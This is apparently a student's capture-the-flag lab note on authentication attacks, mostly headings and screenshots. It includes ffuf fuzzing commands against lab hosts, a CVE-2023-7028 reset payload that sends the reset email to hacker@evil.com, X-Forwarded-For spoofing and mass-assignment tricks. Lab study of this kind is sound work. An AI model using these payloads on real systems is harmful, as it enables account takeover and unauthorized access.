 ____

# Weak Passwords

![[Pasted image 20241217114441.png]]

# Default Passwords

Search for "Default credentials" on google

# Username enumeration through errors

Username is invalid

![[Pasted image 20241217120440.png]]
# Username Enumeration Through Forgot Password Function

Invalid username supplied

![[Pasted image 20241217122422.png]]

# Brute Forcing Username and Password

Cluster-bomb

# Self Registration Using Content Discovery

```bash
ffuf -u https://vdooaly3.eu1.ctfio.com/hidden-registration/user_FUZZ -w content.txt
```

![[Pasted image 20241217123723.png]]

## Javascript Files

![[Pasted image 20241217123935.png]]

## APIs

Leaked ``/by-api/api/auth/login/``

![[Pasted image 20241217124748.png]]

# Brute Forcing One-Time Password (OTP)

![[Pasted image 20241217125652.png]]

# Leaked Password Reset Tokens
## 1
![[Pasted image 20241217131421.png]]

```bash
ffuf -u https://vdooaly3.eu1.ctfio.com/reset-token-leak/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

![[Pasted image 20241217131733.png]]

![[Pasted image 20241217131757.png]]

![[Pasted image 20241217131922.png]]

## 2

```bash
ffuf -u https://vdooaly3.eu1.ctfio.com/api-token-leak/api/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

![[Pasted image 20241217133540.png]]

# Forced Password Reset

Add email field, 
![[Pasted image 20241217134424.png]]

https://github.com/Vozec/CVE-2023-7028


```
user[email][]=my.target@example.com&user[email][]=hacker@evil.com
```

# Bypassing API Authentication with X-Forwarded-For

![[Pasted image 20241217134850.png]]


```
X-forwarded-for: 127.0.0.1
```

![[Pasted image 20241217135113.png]]
# X-Forwarded-For with Information Disclosure

```bash
curl -I https://mzg7ibfb.eu1.ctfio.com/by-api-xip-2/admin/
```

![[Pasted image 20241217135449.png]]

![[Pasted image 20241217135702.png]]
Brute force, 
![[Pasted image 20241217135826.png]]
# Mass Assignment

![[Pasted image 20241217154708.png]]

Add status on the register, 

![[Pasted image 20241217154902.png]]

![[Pasted image 20241217154932.png]]


